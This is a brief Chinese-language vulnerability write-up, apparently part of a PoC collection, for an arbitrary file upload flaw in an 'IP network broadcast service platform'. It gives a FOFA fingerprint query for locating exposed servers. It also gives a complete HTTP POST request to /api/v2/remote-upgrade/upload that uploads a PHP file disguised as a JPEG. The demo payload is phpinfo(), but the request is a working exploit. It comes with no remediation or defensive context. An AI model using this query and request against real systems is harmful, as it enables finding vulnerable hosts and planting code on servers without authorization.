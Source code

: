 # IP网络广播服务平台upload存在任意文件上传漏洞

IP网络广播服务平台存在任意文件上传漏洞，攻击者可以上传恶意文件，导致服务器安全问题。

## fofa

```java
icon_hash="-568806419"
```
![image](https://github.com/user-attachments/assets/4234c615-b46a-42d1-b040-fd20cf483b7a)
![image](https://github.com/user-attachments/assets/5619784e-869f-40a4-b6e7-2664e1e239be)

## poc

```java
POST /api/v2/remote-upgrade/upload HTTP/1.1
Host
Content-Length: 197
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytiZYyyKkbwCxtHC1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1/api/v2/remote-upgrade/upload
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundarytiZYyyKkbwCxtHC1
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarytiZYyyKkbwCxtHC1--
```

